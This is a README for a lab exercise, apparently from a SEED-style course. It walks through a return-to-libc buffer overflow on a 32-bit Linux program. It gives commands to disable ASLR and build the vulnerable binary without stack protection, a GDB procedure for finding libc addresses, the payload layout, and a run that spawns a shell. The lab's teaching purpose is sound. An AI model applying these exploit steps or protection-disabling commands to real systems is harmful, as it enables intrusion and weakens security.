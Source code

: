 # Lab 2 — Libc-Attack

## Overview

This project implements a classic stack-based buffer overflow to demonstrate a **Return-to-libc (ret2libc)** attack on a 32-bit Linux binary with a non-executable stack (NX bit).

## Prerequisites

- 32-bit Linux VM (lab environment)
- `gcc` with multilib support (if building 32-bit on a 64-bit host)
- Python 3
- GDB (with **peda** or a similar helper is helpful)
- Example seed image: https://seedsecuritylabs.org/lab_env.html

---

## Repository files

| File | Description |
|------|-------------|
| `retlib.c` | Vulnerable program with a stack-based buffer overflow. |
| `envaddr.c` | Helper utility to print the address of an environment variable. |
| `exploit.py` | Python script to generate the `badfile` payload. |
| `badfile` | Binary payload file generated by `exploit.py`. |
| `README.md` | This documentation. |
| `images/` | Screenshots of the exploitation process. |

### Image references

![Output of envaddr helper](images/01-envaddr.png)

![Hexdump of badfile payload](images/02-hexdump.png)

---

## Exploitation flow

The attack bypasses the non-executable stack by overwriting the saved return address to point to the `system()` function in `libc`.

**High-level steps:**

1. Disable ASLR (optional for lab reproducibility).
2. Find addresses for `/bin/sh`, `system()`, and `exit()`.
3. Construct a payload that overwrites the saved return address and places arguments for `system()` on the stack.
4. Run the vulnerable program with the crafted payload to spawn a shell.

### Detailed steps

1. **Disable ASLR (for repeatable addresses in this lab)**

   > **Warning:** Disabling ASLR affects system security. Do this only in a controlled lab VM and revert afterward.

   ```bash
   # As root
   echo 0 > /proc/sys/kernel/randomize_va_space
   ```

2. **Set up environment and find target addresses**

   ```bash
   # Make sure /bin/sh is set as an environment variable (used by envaddr)
   export MYSHELL=/bin/sh

   # Compile and run envaddr (see section "How to compile")
   ./envaddr
   # Example output: Address: 0xbfffff01
   ```

   Use GDB (or `readelf`/`objdump` on libc) to find `system()` and `exit()` addresses in the process's libc mapping. Example using GDB:

   ```gdb
   gdb -q ./retlib
   (gdb) run < badfile
   (gdb) p (void*) system
   (gdb) p (void*) exit
   ```

   You may also attach to a running process or inspect `/proc/<pid>/maps` to locate libc.

3. **Construct the payload**

   The `exploit.py` script produces a `badfile` that overflows the vulnerable buffer and overwrites the saved return address.

   **Typical payload layout (32-bit, little-endian):**

   ```
   [ padding up to saved EBP ]
   [ saved EBP (optional placeholder) ]
   [ system_addr (overwritten return address) ]
   [ exit_addr   (next return address, used by system as cleanup) ]
   [ sh_addr     (pointer to "/bin/sh" string) ]
   ```

   This layout ensures that when the function returns it jumps to `system()` with the address of `/bin/sh` as its argument. After `system()` returns, control goes to `exit()`.

4. **Execute the exploit**

   ```bash
   # Generate badfile (after updating exploit.py with discovered addresses)
   python3 exploit.py

   # Run vulnerable program (it reads badfile and triggers overflow)
   ./retlib
   ```

   If successful, `system("/bin/sh")` runs and spawns a shell.

---

## How to compile (examples)

1. Compile 32-bit vulnerable binary and helper:

```bash
# Compile retlib as 32-bit disabling stack protector and keeping stack non-executable
gcc -m32 -o retlib retlib.c -fno-stack-protector -z noexecstack

# Compile envaddr helper
gcc -m32 -o envaddr envaddr.c
```

> Note: Some toolchains require additional packages (multilib). On Debian/Ubuntu you may need `gcc-multilib` and `libc6-dev-i386`.

---

##  Exact compile commands — alternative placement

```bash
# Compile retlib and envaddr for 32-bit
gcc -m32 -fno-stack-protector -z noexecstack -o retlib retlib.c
gcc -m32 -o envaddr envaddr.c
```

> **Security note:** `-z noexecstack` marks the binary as not requiring an executable stack (demonstrates ret2libc bypass of NX). Do this **only** in a controlled lab VM.

---

##  Disable / re-enable ASLR (for reproducibility)

Disabling ASLR makes addresses repeatable in this lab. Re-enable it after testing.

```bash
# Disable (lab only; requires root)
sudo sysctl -w kernel.randomize_va_space=0

# Re-enable when done
sudo sysctl -w kernel.randomize_va_space=2
```

---

##  `envaddr` usage to get `/bin/sh` address

```bash
export MYSHELL=/bin/sh
./envaddr
# Example output: Address: 0xbfffff01
# Use this value as sh_addr.
```

---

## Example workflow & output (illustrative)

```bash
export MYSHELL=/bin/sh
./envaddr
# Example: Address: 0xbfffff01

# After updating exploit.py with discovered addresses
python3 exploit.py
hexdump -C badfile | tail
# ... hexdump shows the little-endian addresses for system, exit, and "/bin/sh"

./retlib
# Program prints buffer addresses and, on success, you get a shell
whoami   # -> seed
echo $?  # -> 0
```

---

